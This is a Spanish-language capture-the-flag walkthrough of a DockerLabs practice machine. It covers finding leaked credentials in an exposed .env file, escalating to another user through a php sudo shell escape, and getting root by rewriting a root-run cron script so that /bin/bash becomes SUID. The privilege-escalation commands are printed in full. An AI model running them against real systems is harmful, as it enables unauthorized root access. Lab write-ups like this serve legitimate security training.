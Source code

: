 nmap: 22, 80

![image](https://github.com/user-attachments/assets/17d47401-b6fc-4bf1-bd5f-62a66bf34e98)

---
al ingresar a la pagina no da una posible usuario "balu"
al entrar al código de la pagina podemos ver que hay un "script.js" al final, si entramos nos mandara a otro código con lo que muestra esto:

![image](https://github.com/user-attachments/assets/3c3528f8-fc03-42b2-bedf-b5f8cfd48ec3)

y si colocamos el 
> .env_de_baluchingo

en el URL queda si:

>http://172.17.0.2/.env_de_baluchingon

nos dará las credenciales

![image](https://github.com/user-attachments/assets/a32544d7-07fa-49ea-b4b5-1a768c25d73d)

![image](https://github.com/user-attachments/assets/94b81bf7-84e2-4daa-be93-52a6fe54049e)

estamos dentro y ahora buscamos como escalar

para escalar se puede por "php" pero no tenemos permisos de escritura o modificación.
para escalar al otro usuario chocolate 
seguí los pasos de: https://gtfobins.github.io/gtfobins/php/#sudo

![image](https://github.com/user-attachments/assets/9dc11e61-3006-46e3-9a70-cb159c7f1377)

![image](https://github.com/user-attachments/assets/3bc81f7e-ba58-40f3-8784-53c88390b4fa)

    CMD="/bin/sh"

     sudo -u chocolate php -r "system('$CMD');"


ahora a escalar a root

utilizamos una herramienta llamada pspy para ver que ejecuta root sin ser root nosotros y poder ver: https://github.com/DominicBreuker/pspy
lo ejecutamos y muestra que esta carpeta se ejecuta cada 5 segundos:  /opt/script.php

![[sleep5.png]]

ejecutamos los siguientes comandos:

    echo "<?php" > /opt/script.php

    echo "exec ('chmod u+s /bin/bash');" >> /opt/script.php

    echo "?>" >> /opt/script.php

por orden uno por uno, lanzamos bash -p

![[dockerlabs/facil/balulero/root.png]]

y somos root! 
